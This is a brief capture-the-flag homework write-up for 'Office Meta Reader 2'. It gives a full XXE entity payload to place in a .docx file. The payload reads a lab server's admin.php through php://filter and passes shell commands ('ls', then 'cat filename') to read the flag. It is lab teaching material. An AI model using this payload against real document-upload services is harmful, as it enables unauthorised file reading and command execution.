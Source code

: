# Homework 9-Bii - Office Meta Reader 2 [100 points] (5 solves)
This challenge using the same port of the exercise `Office Meta Reader 1`, but the location of flag is in the `admin.php`.\
Draft our payload in the same `.docx` file as in exercise, replace the second line to `<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://localhost:35053/admin.php?cmd=ls"> ]>`.\
After seeing the flag file in the list, we can just replace `ls` with `cat filename` to view the flag. 
